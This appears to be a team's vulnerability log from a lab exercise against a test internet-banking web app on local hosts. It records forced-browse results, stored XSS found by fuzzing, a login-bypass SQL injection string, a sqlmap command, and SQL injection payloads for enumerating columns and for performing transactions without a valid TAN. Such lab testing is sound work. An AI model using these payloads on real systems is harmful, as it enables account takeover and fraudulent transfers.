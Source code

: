 # Vulnerability log for Team 4

## Directory structure

### Using ZAP

#### Forced Browse
With a forced browse on /InternetBanking/, we get a quite long list of files. As some PHP files do not have the .php file suffix, they get downloaded instead. Also, the source code for the parser is included in the directory.

```
http://nuc:8085/InternetBanking/
http://nuc:8085/InternetBanking/DataAccess/
http://nuc:8085/InternetBanking/auth/
http://nuc:8085/InternetBanking/client/
http://nuc:8085/InternetBanking/controller/
http://nuc:8085/InternetBanking/controller/clientController.php
http://nuc:8085/InternetBanking/controller/clientFunctions.inc
http://nuc:8085/InternetBanking/controller/employeeController.php
http://nuc:8085/InternetBanking/controller/employeeFunctions.inc
http://nuc:8085/InternetBanking/controller/loginController.php
http://nuc:8085/InternetBanking/controller/logoutController.php
http://nuc:8085/InternetBanking/controller/registrationController.php
http://nuc:8085/InternetBanking/css/
http://nuc:8085/InternetBanking/css/bootstrap-theme.css
http://nuc:8085/InternetBanking/css/bootstrap-theme.css.map
http://nuc:8085/InternetBanking/css/bootstrap-theme.min.css
http://nuc:8085/InternetBanking/css/bootstrap.css
http://nuc:8085/InternetBanking/css/bootstrap.css.map
http://nuc:8085/InternetBanking/css/bootstrap.min.css
http://nuc:8085/InternetBanking/employee/
http://nuc:8085/InternetBanking/fonts/
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.eot
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.svg
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.ttf
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff2
http://nuc:8085/InternetBanking/index/
http://nuc:8085/InternetBanking/js/
http://nuc:8085/InternetBanking/js/bootstrap.js
http://nuc:8085/InternetBanking/js/bootstrap.min.js
http://nuc:8085/InternetBanking/js/npm.js
http://nuc:8085/InternetBanking/login/
http://nuc:8085/InternetBanking/logout/
http://nuc:8085/InternetBanking/model/
http://nuc:8085/InternetBanking/model/Payment.class
http://nuc:8085/InternetBanking/model/PaymentRequest.class
http://nuc:8085/InternetBanking/model/User.class
http://nuc:8085/InternetBanking/model/UserRequest.class
http://nuc:8085/InternetBanking/parser/
http://nuc:8085/InternetBanking/parser/Makefile
http://nuc:8085/InternetBanking/parser/exec
http://nuc:8085/InternetBanking/parser/main.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.h
http://nuc:8085/InternetBanking/registration/
http://nuc:8085/InternetBanking/view/
http://nuc:8085/InternetBanking/view/account.inc
http://nuc:8085/InternetBanking/view/accounts.inc
http://nuc:8085/InternetBanking/view/approvepayments.inc
http://nuc:8085/InternetBanking/view/approveregistrations.inc
http://nuc:8085/InternetBanking/view/client.inc
http://nuc:8085/InternetBanking/view/employee.inc
http://nuc:8085/InternetBanking/view/file.inc
http://nuc:8085/InternetBanking/view/history.inc
http://nuc:8085/InternetBanking/view/historypdf.inc
http://nuc:8085/InternetBanking/view/login.inc
http://nuc:8085/InternetBanking/view/online.inc
http://nuc:8085/InternetBanking/view/registration.inc
```

### Noted behaviour

This list is very incomplete.

```
login.php - Login page and login execution
  Executes login when username and password specified in POST.

registration.php
  POST username=a1&email=&password=Aa1234%2F&passwordconf=Aa1234%2F&accounttype=client

client.php - Client sites
  GET action=account,history,historypdf,online,file
  Online: POST receipt=t1&amount=1&purpose=fdsgfdsg&trancode=r3bIvzE9JFLWpDd

employee.php - Employee main site
  GET action=accounts,approvepayments,approveregistrations,history,historypdf
  Approve regs: POST requestid, approve={reject,approve}
  History, history PDF: GET account

logout.php - Logout
```

## Login

### Using ZAP

#### Stored XSS Vulnerabilities

In registration: Fuzz the username using "jbrofuzz / XSS / XSS 101"
This can also be applied to the transaction description.

Consequence: The site of an employee can be completely destroyed, or one can ask for username and password of the employee with a rebuilt login form, etc.


#### SQL injection

In login: Fuzz the username using "jbrofuzz / SQL Injection / SQL Injection"
The last entry (  anything' OR 'x'='x  ) will login the attacker as "anything" (if the user exists) or as the first user where the password matches.

## Transaction HTML form

### Using SQLmap

Attacking the transaction form did not lead to any vulnerabilities from SQLmap:

```
sqlmap -u 'http://vm/InternetBanking/client.php?action=online' --data='receipt=t1&amount=1&purpose=sqli&tancode=te' --level=5 --risk=3 --text-only --cookie='PHPSESSID=8fqb4ba3cd322t4u13k1g2qhv4'
```

## File upload

### Manual testing
not, because the tools wouldn't be able to do that, but because the things are too special for general tools.

Note that stacked SQL queries appear to be not supported.

It looks like SQL errors end up in an immediate program exit, so we don't get "success" or "fail" displayed, except in the comment entry where success is always displayed. To check, one has to go to the history page and check whether the transaction appears there.

#### Finding database columns

Append  `" GROUP BY <colname> HAVING "1"="1`. It will say nothing, if the column does not exist.


#### Perform transaction without TAN (SQL injection)

In the TAN line, the parser apparently stops scanning the line after the first whitespace. This makes things more difficault, but not impossible:

```
"OR(NOT(`id`IN(SELECT`id`FROM`payment`)))AND"x"="x
```

This was found by manual testing and will use any unused TAN of any user. Potentially, the TANs of all users could be compromised.
